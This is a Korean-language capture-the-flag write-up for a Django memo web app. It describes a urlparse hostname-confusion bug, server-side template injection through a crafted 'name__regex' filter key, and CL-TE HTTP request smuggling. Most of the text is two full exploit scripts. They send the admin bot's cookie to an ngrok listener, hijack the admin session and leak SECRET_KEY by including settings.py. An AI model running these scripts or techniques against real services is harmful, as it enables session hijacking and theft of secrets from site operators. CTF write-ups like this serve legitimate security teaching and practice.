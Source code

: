 # Yonsei Memo

## Vulnerability
### urlparse
yonsei_memo/common.py
```python
def check_url(url):
    o = urlparse(url)
    if o.scheme != 'http':
        return False
    if o.hostname != HOSTNAME:
        return False
    return True
```
+ urlparse에는 url에 @가 포함되어 있을 때 파싱 결과 hostname과 실제 hostname가 불일치할 수 있는 취약점이 있다.
```python
>>> urlparse('http://a.com\@b.com').hostname
'b.com'
```
+ 이를 이용하면 report를 통해 어드민 리퀘스트를 탈취할 수 있다.
> 어드민 리퀘스트에는 세션 정보(쿠키)가 포함되어 있으므로 어드민으로 로그인이 가능하다.
### ssti
yonsei_memo/common.py
```python
def render_template(template, context):
    page = temp_index.split('body_here')[0]
    page += template
    page += temp_index.split('body_here')[1]
    return HttpResponse(Template(page).render(Context(context)))
```
+ response를 만들때 render engine을 바로 사용하지 않고 문자열을 합치듯 템플릿을 만든 뒤 렌더링한다. 따라서 잠재적인 ssti 취약점이 존재한다.
admin/views.py
```python
    if request.method == 'POST':
        key = list(request.POST.keys())[0]
        filters = {key:request.POST[key]}
        msg = 'Searched result for '+request.POST[key]
        
    else:
        filters = {}
        msg = ''
    user_list = get_user_list(filters)
    if len(user_list) == 0:
        msg = 'No result.'

    return render_template(msg+temp_admin_userlist, {'user_list': user_list})
```
templates/userlist.html
```html
    <form method="post">
        <input name="name" type="text"/>
    </form>
```
+ /admin/users 에서 **클라이언트에게 key value를 받아** filter를 구성해 db의 user 테이블을 검색한 결과를 보여준다.
+ `msg+temp_admin_userlist`를 렌더링하는데, 검색 결과가 존재할 경우 `msg = 'Searched result for '+request.POST[key]` 가 된다.
+ user name에는 특수기호가 들어갈 수 없으므로 ssti가 불가능할 것 같지만 사실 가능하다.
+ 검색 filter의 key가 name으로 정해져 있는데, 클라이언트는 post data를 조작해 key를 임의로 조작할 수 있다.
+ django의 doc을 읽어보면 (https://docs.djangoproject.com/en/3.1/ref/models/querysets/#regex) filter로 정규식이 들어갈 수 있다. 컬럼명뒤에 `__regex`를 붙히는 것으로 가능하다.
> 즉 검색의 key로 `name__regex`를, value로 아무 계정의 이름+`|{{7*7}}`을 줌으로써 ssti가 가능해진다.

## Exploit Scenario
1. nc + ngrok 로 로컬 포트 리슨
2. urlparse 취약점 이용해 `ngrok public url + \@211.217.69.153`를 report
3. 어드민 쿠키를 얻어 어드민으로 로그인
4. `POST /admin/users ... name__regex=admin|{% include "yonsei_memo/settings.py" %}`

## Exploit Code
```python
import requests
import random
import time
from pyngrok import ngrok
import socket

host = '211.217.69.153'
port = 32009

def open_port(port):
    s = socket.socket()
    s.bind(("", port))
    s.listen(1)
    ht = ngrok.connect(port, "http")
    return ht.public_url, s

def get_response(s):
    s_r, a = s.accept()
    r = s_r.recv(1024)
    s_r.close()
    return r
    
if __name__=="__main__":
    url = 'http://'+host+':'+str(port)
    name = str(round(random.random()*100000))
    
    reg_form = {"username":name, "password":"hanch", "register":"Register"}
    res = requests.post(url+'/memo/login', data=reg_form, headers={'User-Agent':'loginer'})
    token = res.history[0].cookies['token']
    cookies = {'token':token}

    purl, s = open_port(4000)
    requests.post(url+'/memo/report', data={'url':purl+'\\@211.217.69.153'}, headers={'User-Agent':'reporter'}, cookies=cookies)

    response = get_response(s)
    s.close()
    admin_token = response.split(b'token=')[1].split(b'\r\n')[0].decode()
    print('admin token : '+admin_token)

    cookies = {'token':admin_token}
    injection = {'name__regex':'admin|{% include "yonsei_memo/settings.py" %}'}
    res = requests.post(url+'/admin/users', data=injection, headers={'User-Agent':'attacker'}, cookies=cookies)
    flag = res.text.split('SECRET_KEY = "')[1].split('"')[0]

    print(flag)
```

## HTTP smuggling
CL-TE 테스트를 하다보면 이 서버에 http smuggling 취약점이 존재함을 발견할 수 있다.
이를 이용하면 urlparse 취약점을 이용하지 않아도 어드민 세션 정보를 탈취할 수 있다.
### Exploit Code#2
```python
import requests
import random
from pwn import *

host = '211.217.69.153'
port = 32009

def convert(content):
    return (
        content
        .replace("\n", "\r\n")
        .encode("utf-8")
    )

def trigger_desync(token, i):
    
    content = """GET /memo/memos HTTP/1.1
Host: {host}
User-Agent: attacker
Content-Length: {length}
Transfer-Encoding: \x0bchunked
Connection: keep-alive
Cookie: token={token}

0

"""

    data = 'title=hack&content=admin_http_follow_by'
    payload = '''POST /memo/memos HTTP/1.1
Host: {host}
User-Agent: add on admin request
Content-Length: {length}
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Cookie: token={token}

{data}'''

    r = remote(host, port)
    payload = convert(payload.format(host=host, data=data, length=str(len(data)+i), token=token))
    content = convert(content.format(host=host, length=str(5+len(payload)), token=token))
    final = content+payload
    r.send(final)
    while True:
        try:
            response = r.recv()
            if b'HTTP/1.1 200 OK' in response:
                print('waiting for admin visit...')
        except EOFError:
            break

if __name__=="__main__":
    url = 'http://'+host+':'+str(port)
    name = str(round(random.random()*100000))

    reg_form = {"username":name, "password":"hanch", "register":"Register"}
    res = requests.post(url+'/memo/login', data=reg_form, headers={'User-Agent':'loginer'})
    token = res.history[0].cookies['token']
    cookies = {'token':token}

    i = 240
    while True:
        res = requests.post(url+'/memo/report', data={'url':url}, headers={'User-Agent':'reporter'}, cookies=cookies)
        trigger_desync(token, i)

        res = requests.get(url+'/memo/memos', cookies=cookies)
        cards = res.text.split('<div class="card">')
        last_card = cards[1]
        view_path = last_card.split('<a href="')[1].split('">')[0]
        print(len(cards))
        res = requests.get(url+view_path, cookies=cookies)
        if 'admin_http_follow_by' not in res.text:
            continue
        admin_http = res.text.split('admin_http_follow_by')[1].split('</span>')[0]
        print(admin_http)
        if 'token=' in admin_http:
            steal = admin_http.split('token=')[1]
            if '\r\n' in steal:
                admin_token = steal.split('\r\n')[0]
                break
            if len(steal)>130:
                i += 1
                continue
            else:
                i += 10
                continue
        i += 20     
     
    print('admin token : '+admin_token)

    cookies = {'token':admin_token}
    injection = {'name__regex':'admin|{% include "yonsei_memo/settings.py" %}'}
    res = requests.post(url+'/admin/users', data=injection, headers={'User-Agent':'attacker'}, cookies=cookies)
    flag = res.text.split('SECRET_KEY = "')[1].split('"')[0]

    print(flag)
```